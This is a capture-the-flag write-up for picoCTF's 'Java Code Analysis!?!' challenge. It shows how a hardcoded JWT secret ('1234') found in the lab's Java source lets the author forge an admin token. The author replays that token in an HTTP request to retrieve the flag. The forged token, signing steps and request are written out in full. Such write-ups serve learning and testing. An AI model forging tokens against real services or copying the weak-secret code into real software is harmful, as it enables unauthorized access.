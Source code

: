 # Java Code Analysis!?!
BookShelf Pico, my premium online book-reading service.
I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book! (300 Points)
Here are the credentials to get you started:
- Username: "user"
- Password: "user"

## Data
bookshelf-pico.zip

## Solution
On the website we see three different eBooks. One of them, the 'Flag' book, is only accessable for the admin. So to get the flag we to raise up our priviledges.

According to the hints there is something going on with the JWT (JSON Web Tokens). Those tokens are a standard for web authentification. If you login to a website, the server generates a token for the web response. If the client connects the server with a valid token, he will be autehnticated by the server.

If we login to the website and analyse the traffic with zap, we find the following token in the response to the login POST from the client:
```
{"type":"SUCCESS","payload":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY4MDU0MDYwOSwiaWF0IjoxNjc5OTM1ODA5LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.kOni4aqUFqgp4myBdnwUJqTvdmV4vNQaFC7oKqCfR9o"}
```

The token is structured in three parts, sperated by a dot: HEADER (ALGORITHM & TOKEN TYPE), PAYLOAD (DATA) and VERIFY SIGNATURE. At https://jwt.io/#debugger-io the can analyze the token. The payload is the most interesting for us at this part:
```
{
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1680540609,
  "iat": 1679935809,
  "userId": 1,
  "email": "user"
}
```

This payload could be edited and we can generate a new token. But we also need a keyword, which is given by the server for the verify signature. Maybe we can find it in the source code.

In the file 'JavaCodeAnalysis/bookshelf-pico/src/main/java/io/github/nandandesai/pico/security/SecretGenerator.java' we find indeed an unsecure function:
```java
    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }
```

The code tries to generate the secret with a file 'server\_secret.txt' and if this file is not given, it will use the function shown above:
```java
    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
```

So probably this is our key to verify the JWT signature.

In 'JavaCodeAnalysis/bookshelf-pico/src/main/java/io/github/nandandesai/pico/security/JwtService.java' we can find more information about the structure of the token, but there is no difference to the token we already decoded.

The file 'JavaCodeAnalysis/bookshelf-pico/src/main/java/io/github/nandandesai/pico/configs/BookShelfConfig.java' shows some information about the user configuration. The important part is the creation of the admin user:
```java
                User admin = new User();
                admin.setProfilePicName("default-avatar.png")
                        .setRole(AdminRole)
                        .setLastLogin(LocalDateTime.now())
                        .setFullName("Admin")
                        .setEmail("admin")
                        .setPassword(passwordEncoder.encode("<redacted>"));
                userRepository.save(admin);
```

So with this informations we can create a new token:
```
Header
{
  "typ": "JWT",
  "alg": "HS256"
}

Payload
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1680538930,
  "iat": 1679934130,
  "userId": 2,
  "email": "admin"
}

Signature
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  1234
)
```
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE2ODA1Mzg5MzAsImlhdCI6MTY3OTkzNDEzMCwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.NXhqBffCO2UP3ImWeCg7UJR5c0UHRH_SFY9bzTptmPY
```

Via zap we can use this token to edit a GET request to the website. It uses our old token, so we can just replace it:
```
GET http://saturn.picoctf.net:51082/base/books HTTP/1.1
Host: saturn.picoctf.net:51082
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE2ODA1Mzg5MzAsImlhdCI6MTY3OTkzNDEzMCwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.NXhqBffCO2UP3ImWeCg7UJR5c0UHRH_SFY9bzTptmPY
Connection: keep-alive
Referer: http://saturn.picoctf.net:51082/
Content-Length: 0
```

Our responce looks good. We get an success and a list of the books
```
{"type":"SUCCESS","payload":[{"id":3,"title":"Little Brother","desc":"Little Brother is a novel by Cory Doctorow, published by Tor Books. It was released on April 29, 2008. The novel is about four teenagers in San Francisco who, in the aftermath of a terrorist attack on the San Francisco–Oakland Bay Bridge and BART system, defend themselves against the Department of Homeland Security's attacks on the Bill of Rights.","role":"Free"},{"id":4,"title":"The Future of the Internet and How to Stop It","desc":"The Future of the Internet and How to Stop It is a book published in 2008 by Yale University Press and authored by Jonathan Zittrain. The book discusses several legal issues regarding the Internet.","role":"Premium"},{"id":5,"title":"Flag","desc":"You need to have Admin role to access this special book!","role":"Admin"}]}
```

To access the 'Flag' book we have to call the URL `http://saturn.picoctf.net:51082/base/books/pdf/5`. We can see this also in zap if we access a book for that we have the permissions. So if we access the URL with our admin token, we get a valid response with the PDF in the body. If we scroll over the body in zap we can find our flag:
```
>>
stream
BT
/F1 20 Tf
1 0 0 1 50 752 Tm
12 TL
(Great job! Here's your flag:)'
()'
()'
(picoCTF{w34k_jwt_n0t_g00d_602ce414})'
ET
endstream
endobj
8 0 obj
119
endobj
3 0 obj
<<
```
